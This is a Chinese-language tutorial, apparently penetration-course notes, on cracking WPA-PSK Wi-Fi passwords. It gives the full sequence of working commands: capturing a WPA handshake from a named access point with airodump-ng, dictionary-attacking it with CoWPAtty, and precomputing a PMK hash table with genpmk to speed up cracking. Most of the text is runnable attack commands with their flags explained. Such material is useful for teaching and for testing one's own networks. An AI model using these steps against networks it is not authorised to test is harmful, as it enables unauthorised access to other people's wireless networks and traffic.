 # WPA破解-创建Hash-table加速并用Cowpatty破解

## 1.Cowpatty 软件介绍

CoWPAtty是WPA-PSK的自动字典攻击工具，它运行在Linux上，该程序具有命令行界面，并使用字典进行密码攻击。

## 2.渗透流程

### 1.安装CoWPAtty

```
cowpatty
```

![image-20211209152646289](https://img.gyxnb.top/img/image-20211209152646289.png)

### 2.抓握手包

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 3.重新连接wifi

### 4.渗透WPA wifi

```
cowpatty -f /root/wifi/passwd.txt -r  wpa-1-01.cap -s cisco-1809
-f:字典文件
-r:数据包捕获文件
-s:网络SSID（如果SSID包含空格，则使用引号括起来）
```

![image-20211209152816034](https://img.gyxnb.top/img/image-20211209152816034.png)

### 5.使用大字典破解

```
cowpatty -f /root/wifi/pwd.txt -r  wpa-1-01.cap -s cisco-1809
```

![image-20211209152848877](https://img.gyxnb.top/img/image-20211209152848877.png)

## 3.hash-table加速

### 1.将密码字典生成hash-table

```
genpmk -f  pwd.txt -d ./pwdhash -s cisco-1809
```

![image-20211209153002704](https://img.gyxnb.top/img/image-20211209153002704.png)

生成hask-table速度比较慢，但是具有可传播性，大家如果跟我视频设置的是一样的wifi名称和一样的密码规则，可以直接使用而课程附件里生成好的hash-table直接破解

### 2.加速渗透

```
cowpatty -d /root/wifi/pwdhash -r  wpa-1-01.cap -s cisco-1809
```

![image-20211209153101178](https://img.gyxnb.top/img/image-20211209153101178.png)

## 4.课程小结

参考：课后笔记